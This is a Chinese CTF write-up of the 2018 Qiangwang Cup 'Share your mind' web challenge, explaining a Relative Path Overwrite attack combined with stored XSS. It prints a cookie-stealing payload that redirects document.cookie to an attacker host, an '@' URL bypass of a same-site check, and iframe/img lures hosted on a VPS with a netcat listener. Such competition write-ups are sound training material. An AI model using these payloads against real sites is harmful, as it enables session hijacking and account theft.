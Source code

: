 ```yaml
---
title: 第二届强网杯Web部分 Writeup
date: 2018-03-27 18:06:02
tags: [CTF, writeup, Web, RPO]
categories: Security
---
```

强网杯Web部分的题难度不小，还是比较有意思的，收获很大，这里简单分析一下其中两道题

### Share your mind
```
http://39.107.33.96:20000
Please help me find the vulnerability before I finish this site！
hint：xss bot使用phantomjs，版本2.1.1
hint2 : xss的点不在report页面
```
根据writeup描述，这是一道RPO攻击的题目，以前没接触过，趁机学习一波

首先注册用户登录，查看源码，最后几行，可以看到引用js的时候这里使用了相对路径，构成RPO攻击的条件，简单尝试几个url发现确实可以利用。

RPO攻击的原理可以参考

https://www.cnblogs.com/iamstudy/articles/ctf_writeup_rpo_attack.html

http://blog.nsfocus.net/rpo-attack/

访问`http://39.107.33.96:20000/index.php/view/article/1226`的时候加载`jquery.min.js`的路径可以看到是正常的，

![jquery.js](https://ob5vt1k7f.qnssl.com/oHZtz)
当访问`http://39.107.33.96:20000/index.php/view/article/1226/..%2f..%2f..%2f..%2findex.php`的时候浏览器尝试加载`..%2f..%2f..%2f..%2findex.php/static/js/jquery.min.js`这个数据，而服务端则往上读取三层路径，加载的是article的页面，如果article页面存在xss的话就会被加载，题目也正好满足要求，所以我们创建一篇文章写入获取cookie的js,利用这个url让服务器请求这篇文章，弹给我们cookie

![jquery.js](https://ob5vt1k7f.qnssl.com/pa5qf)

因为页面对一些特殊符号做了编码过滤，所以我们使用`String.fromCharCode()`方法从ascii码来加载js
```
window.location.href=String.fromCharCode(some ascii code) + document.cookie;
```

![md5](https://ob5vt1k7f.qnssl.com/SVQMd)
这里有两个点的绕过：

- url部分做了同站检测，通过`http://39.107.33.96:20000@x.x.x.x`的形式绕过
- 这里的code每次刷新都是随机的，而且通过`===`比较，没法通过弱类型绕过，所以我们生成所有6位字符的MD5，搜索前6位符合条件的就行(实际上生成了大约200M的文件基本够用了)

根据提示要访问`/QWB_fl4g/QWB/`页面，所以我们在vps上建一个带iframe的页面
```
<img src='http://39.107.33.96:20000/QWB_fl4g/QWB/index.php'>  
<iframe src='http://39.107.33.96:20000/QWB_fl4g/QWB/index.php/..%2f..%2f../index.php/view/article/1462/..%2f..%2f..%2f..%2findex.php'></iframe>
```
nc监听端口，xssbot会先访问`/QWB_fl4g/QWB/index.php`，带上cookie后再访问article，触发xss，我们就能收到cookie
